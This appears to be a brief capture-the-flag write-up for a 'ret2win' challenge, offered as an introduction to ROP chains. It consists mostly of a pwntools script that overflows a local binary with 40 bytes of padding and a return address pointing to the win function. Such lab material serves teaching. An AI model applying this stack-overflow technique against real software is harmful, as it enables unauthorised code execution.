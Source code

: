 # Challenge Theory and Solution
This is a simple ret2win pwnchallenge, which servers as intro to rop chains.
It is simple to solve:
## Solve Script:
```python
#!/usr/bin/python3
import pwn
binary = "ret2win"
pwn.context.binary = binary
pwn.context.encoding = "latin"
pwn.context.log_level = "debug"

padding = 40
win = pwn.p64(0x400756)
payload = b"A"*padding + win

with pwn.process(binary) as io:
    io.send(payload)
    io.interactive()
```